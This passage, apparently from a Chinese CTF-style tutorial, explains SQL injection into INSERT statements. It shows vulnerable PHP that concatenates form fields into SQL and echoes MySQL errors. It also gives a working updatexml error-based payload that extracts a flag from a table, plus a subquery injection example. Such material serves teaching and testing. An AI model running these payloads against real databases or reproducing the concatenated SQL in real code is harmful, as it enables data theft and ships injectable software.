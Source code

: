 这里代表一定的非select注入。
## **报错回显注入**
如果存在报错回显，使用报错。
如：
```
$sql="insert into sds_dpt set sds_name='".$dpt_name."',sds_address ='".$dpt_address."',sds_build_date='".$dpt_build_year."',sds_have_safe_card='".$dpt_has_cert."',sds_safe_card_num='".$dpt_cert_number."',sds_telephone='".$dpt_telephone_number."';";
	$result=$mysqli->query($sql);
	echo $sql;
	if($result===true){
		$mysqli->close();
		header("location:dpt.php");
	}else{
		die(mysqli_error($mysqli));//报错回显
	}
```
```
dpt_name=aa&dpt_address=aa&dpt_build_year=2021-04-02&dpt_has_cert=on&dpt_cert_number=a&dpt_telephone_number=xxx' or updatexml(1,concat(0x7e,substr((select group_concat(flag) from  sds_fl9g),20,30),0x7e),1)#
```

^
## **插入记录回显注入**
插入记录后，或修改记录后，有回显，如列表。
使用select语句或union联合注入。
```
$dpt_name="(select database())";
$sql="insert into user set name='".$dpt_name."';";
```